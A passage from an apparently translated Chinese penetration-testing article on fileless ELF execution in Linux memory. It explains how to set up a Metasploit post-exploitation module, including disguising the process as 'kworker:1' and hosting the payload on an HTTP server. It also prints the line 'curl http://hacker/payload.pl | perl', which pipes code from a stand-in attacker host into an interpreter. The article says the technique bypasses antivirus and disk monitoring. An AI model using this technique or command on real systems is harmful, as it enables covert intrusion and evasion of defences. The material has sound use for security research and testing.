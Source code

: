 通过这种方式我们替换了`open()`函数代码。我们的可执行文件会被注入到内存中，使用PHP解释器运行。我们可以使用shellcode来表示系统调用。



## 七、Metasploit

我们开发了一个MSF[模块](https://github.com/fbkcs/msf-elf-in-memory-execution)，方便大家使用这些技术。

我们可以将该模块文件拷贝至`$HOME/.msf4/module/post/linux/manage/download_exec_elf_in_memory.rb`，然后在Metasploit控制台执行`reload_all`命令，再输入`use post/linux/manage/download_exec_elf_in_memory`命令来使用该模块（如果拷贝至其他目录，需要使用相应的路径）。在使用该模块之前，我们需要指定一些选项。输入`show options`显示可设置的选项清单：
<li>
`ARGS`：传递给可执行文件的参数</li>
<li>
`FILE`：可执行文件路径，这里我们使用的是Netcat</li>
<li>
`NAME`：进程名。可以使用任意名称。比如，如果想隐蔽一点，可以使用`kworker:1`，如果想有趣一点，便于演示，可以使用`KittyCat`
</li>
<li>
`SESSION`：meterpreter会话。这个模块主要服务于后渗透（post-exploitation）场景</li>
- 然后我们需要设定托管payload的http服务器地址及端口，通过`SRVHOST`及`SRVPORT`来设定。
<li>
`VECTOR`：使用该方法在内存中执行程序，这不是必选参数，如果未设定，则脚本自己会寻找所需的解释器。目前我们支持PHP、Python以及Perl。</li>
接下来运行`exlpoit`或者`run`命令，大家可以参考[演示视频](https://www.youtube.com/watch?v=y9vRUItW_5c)。

整个工作原理如下：我们指定所需的会话（可以是meterpreter或者普通的反弹shell），然后设定ELF文件的本地路径、参数以及显示在进程列表中名称。启动本地web服务器来托管payload，开始搜索用于下载的实用工具（目前支持curl和wget），找到可使用的工具后，如果我们没有在`VECTOR`中指定所需的解释器，则会开始搜索所有可用的解释器。如果找到可用的解释器后，就从我们的web服务器上下载payload，通过管道传输至对应的解释器，效果类似于`$ curl http://hacker/payload.pl | perl`命令。



## 八、总结

在Linux系统中实现无文件执行ELF是渗透测试中一种非常有用的技术。这种方法较为隐蔽，可以绕过各种类型的反病毒保护机制、系统完整性保护机制以及基于硬盘监控的防护系统。通过这种方法，我们能够以最小的动静访问目标。

在本文中我们用到了Linux发行版、内置设备固件、路由器以及移动设备中常见的解释型语言，有些小伙伴们已经[研究过](https://magisterquis.github.io/2018/03/31/in-memory-only-elf-execution.html)这方面内容，在此特别感谢他们对我们的帮助。
